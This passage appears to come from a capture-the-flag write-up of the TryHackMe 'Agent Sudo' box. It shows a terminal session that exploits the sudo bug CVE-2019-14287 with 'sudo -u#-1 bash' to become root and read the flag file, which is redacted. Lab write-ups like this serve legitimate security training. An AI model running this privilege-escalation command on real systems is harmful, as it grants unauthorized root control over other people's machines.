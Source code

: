 ```shell
james@agent-sudo:~$ 

```

- After Searching for sudo version vulnerability we found one 
- https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability


```shell
james@agent-sudo:~$ sudo -u#-1 bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
[REDACTED]

By,
DesKel a.k.a Agent R

```

